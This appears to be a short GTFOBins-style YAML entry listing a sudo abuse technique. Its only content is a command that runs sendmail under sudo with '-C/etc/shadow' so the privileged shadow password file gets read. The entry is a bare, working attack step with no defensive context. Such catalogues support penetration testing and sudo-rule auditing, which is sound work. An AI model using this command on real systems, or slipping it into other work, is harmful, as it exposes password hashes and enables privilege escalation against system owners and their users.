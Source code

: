 ```yaml
---
functions:
  sudo:
    - code: |
        LFILE=file_to_read
        sudo /usr/bin/sendmail -tf aaa -C/etc/shadow $LFILE 
---
```


